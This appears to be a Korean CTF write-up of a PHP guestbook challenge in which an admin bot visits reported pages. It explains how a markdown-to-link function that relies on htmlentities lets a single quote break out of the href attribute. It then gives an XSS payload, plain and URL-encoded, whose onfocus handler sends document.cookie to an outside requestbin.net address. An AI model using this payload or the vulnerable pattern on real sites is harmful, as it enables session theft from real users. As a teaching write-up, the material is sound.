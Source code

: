 # Guest book

php로 개발 중인 방명록 서비스이다.   
글을 쓰는 기능과, 오류가 발생하는 주소를 관리자가 확인할 수 있도록 하는 Report기능이 존재한다.   
관리자의 쿠키를 획득해야한다.   
<br/>

```
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  return $content;
}
?>
```
소스코드를 보면 get 방식으로 인자를 전달하고, 전달받은 값을 html entity 인코딩 한다.   
이후 [ ]안에 있는 값은 a태그의 text value 위치로, ( ) 안에 있는 값은 a 태그의 href 속성 값으로 대입된다.   
<br/>

## 웹 사이트 구조   
* GuestBook.php   

![](1.PNG)   
문자열을 입력하면 그대로 출력해준다.   
만약 [text](링크 url) 형태로 작성할 경우, a 태그로 변경해준다.   
<br/>

* Report.php

![](2.PNG)   
오류가 발생하는 페이지를 Report 하는 서비스가 구현되어있다.   
Report 시, admin 봇이 페이지를 조회한다.   
<br/>


## Exploit

a 태그 입력되는 부분에서 싱글쿼터(')를 이용하여 싱글쿼터 Escape를 시도할 수 있다.   
```
[test](' autofocus onfocus='location.href="http://requestbin.net/r/6mfow8d9?"+document.cookie' id=')
```
```
GuestBook.php?content=%5Btest%5D(%27%20autofocus%20onfocus%3D%27location.href%3D%22http%3A%2F%2Frequestbin.net%2Fr%2Fa8nl2frs%3F%22%2Bdocument.cookie%27%20id%3D%27)
```
<br/>

Cookie를 받을 내 서버가 없거나 아파치로 사용하기 번거로울 때 사용하면 좋은 사이트가 있다.   
### https://requestbin.net/
